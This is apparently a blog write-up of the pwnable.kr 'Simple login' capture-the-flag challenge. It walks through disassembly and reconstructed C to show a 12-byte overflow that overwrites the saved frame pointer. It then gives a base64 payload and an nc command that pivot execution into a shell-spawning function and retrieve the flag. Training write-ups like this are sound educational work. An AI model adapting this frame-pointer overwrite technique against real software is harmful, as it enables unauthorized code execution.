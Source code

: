 ```yaml
---
title: Simple login - Pwnable.kr
date: 2017-01-19
categories: [Writeups, Pwnable.kr]
tags: ['Buffer overflow', 'EBP']
image:
    path: "/unsorted/pwnablekr.png"
---
```


Fuzzing a little bit we can easily crash the program...there is something
weird happening here.

```console
$ ./login 
Authenticate : aaaaaaaaaaaaa
hash : 0df08ae957b3d5ae2d6445c9416fe1cd
Segmentation fault (core dumped)
```


Analyzing a little bit we can realize that the program crashes at the address
`0x08049424`:

```nasm
 ,=< 0x0804940a      7513           jne 0x804941f   
 |   0x0804940c      e84efeffff     call sym.correct        
,==< 0x08049411      eb0c           jmp 0x804941f  
||   0x08049413      c70424baa60d.  mov dword [esp], str.Wrong_Length
||   0x0804941a      e8b12e0100     call sym.puts                                            
``-> 0x0804941f      b800000000     mov eax, 0                                                              
     0x08049424      c9             leave        ; <== The program crashes here
     0x08049425      c3             ret    
```

The instruction `leave` is an alias of `mov esp, ebp; pop ebp`, if we have a closer
look to the value of the register `ebp` before this instruction we can assume this
is the cause of the program crashing (together with the part `pop ebp` of the instruction
`leave`).

After that it should be fairly easy to find where the value of `ebp` is changing, for this
we can just [set some watchpoint](http://stackoverflow.com/questions/2223425/gdb-breakpoint-when-register-will-have-value-0xffaa).


```nasm
/ (fcn) sym.auth 113                                               
|           ; var int buff @ ebp-0x14                                                  
|           ; var int md5 @ ebp-0xc                                                            
|           ; arg int length @ ebp+0x8                                                         
|           ; arg int fun_arg_2 @ esp+0x4                                                      
|           ; arg int fun_arg_3 @ esp+0x8                                                  
|           ; CALL XREF from 0x08049402 (sym.main)                                   
|           0x0804929c      55             push ebp                                         
|           0x0804929d      89e5           mov ebp, esp                                       
|           0x0804929f      83ec28         sub esp, 0x28                                               
|           0x080492a2      8b4508         mov eax, dword [ebp + length] 
|           0x080492a5      89442408       mov dword [esp + fun_arg_3], eax                            
|           0x080492a9      c744240440eb.  mov dword [esp + fun_arg_2], obj.input
|           0x080492b1      8d45ec         lea eax, [ebp - buff]   
|           0x080492b4      83c00c         add eax, 0xc                                                
|           0x080492b7      890424         mov dword [esp], eax                                        
|           0x080492ba      e8a1030200     call sym.memcpy         
```


We notice that the function `memcpy` is overwriting the stored value of `ebp`, indeed
it is copying the content referenced by `obj.input` into a data segment
starting from the address `buff + 0xc`, i.e. `ebp - 0x14 + 0xc` which is `ebp-0x8`.
If the value of length is more than eight we can overwrite `ebp` and maybe the 
return address. Let's see where the value of length is coming from:


```c
int auth(int length){

        char copy[8]; // ebp - 0x8
        char* md5;    // ebp - 0xc
        char buff[8]; // ebp - 0x14

        memcpy( copy, input, length); // copy == buff + 0xc
        md5 = calc_md5(buff, 0xc);

        printf("hash: %s\n",md5); 

        return strcmp("f87cd601aa7fedca99018a8be88eda34",md5) == 0;

}

void main(){

    char buff[0x1e]; 
    memset(buff, 0, 0x1e);

    setvbuf(stdout, NULL, _IOFBF, 0); 
    setvbuf(stdin, NULL, _IOLBF, 0);

    printf("Authenticate :\n");
    scanf("%30s", buff);
    
    memset(input, 0, 0xc);

    char* decoded_buff = NULL;
    int length = base64Decode(buff, &decoded_buff); // length decoded buff

    if ( 0xc < length){
        puts("Wrong length");
        return;
    }

    memcpy(input, decoded_buff, length);
    
    if (auth(length) != 1) return;

    correct();
}
```
       
       
Damn, `length` cannot be bigger than `0xc`...it's ok, we can still control
the frame pointer. After we set the value of `ebp` we can use the instructions
`leave; ret` at the end of the function `main` to jump to the function `correct`.

Thanks to `leave` (i.e. `mov esp, ebp`) we can control the value of `esp`, next
the instruction `ret` (i.e. `jump [esp]`) will let us jump to the address pointed
by `esp`.

So, first of all lets choose an address where to jump...let's say `0x08049278`
(so we can avoid the test).


```nasm
/ (fcn) sym.correct 61                                                                          
|           ; var int local_ch @ ebp-0xc                                                             
|           ; CALL XREF from 0x0804940c (sym.main)                                                     
|           0x0804925f      55             push ebp                                             
|           0x08049260      89e5           mov ebp, esp                                                     
|           0x08049262      83ec28         sub esp, 0x28                                                    
|           0x08049265      c745f440eb11.  mov dword [ebp - local_ch], obj.input                            
|           0x0804926c      8b45f4         mov eax, dword [ebp - local_ch]                                  
|           0x0804926f      8b00           mov eax, dword [eax]                                             
|           0x08049271      3defbeadde     cmp eax, 0xdeadbeef                                             
|       ,=< 0x08049276      7518           jne 0x8049290             
|       |   0x08049278      c7042451a60d.  mov dword [esp], 0x80da651 
|       |   0x0804927f      e84c300100     call sym.puts                                             
|       |   0x08049284      c704246fa60d.  mov dword [esp], 0x80da66f ; "/bin/sh"
|       |   0x0804928b      e820200100     call sym.system                                           
|       `-> 0x08049290      c70424000000.  mov dword [esp], 0                                               
\           0x08049297      e804140100     call sym.exit              
```

Now we need to find a zone in memory where we can find the value `0x080492978`.
For this we can use the zone over which we have complete control. There are
several buffers used to store user data and even with ALSR as we are in little 
endian we could just overwrite the lower bits of the `ebp` with the right offset
in order to reference any data on the stack. But there is an easier solution,
we can use `obj.input` which fixed address is `0x0811eb40`.


```python
>>> base64.b64encode(bytes.fromhex('00000000 78920408 40eb1108'))
b'AAAAAHiSBAhA6xEI'
```

And then:   
  
```console
$ nc pwnable.kr 9003
Authenticate : AAAAAHiSBAhA6xEI
hash : 1528d0b5bb646c5820b04126329c2c70
Congratulation! you are good!
cat flag
control EBP, control ESP, ******* EIP, ******* *** *****~
```
       
       


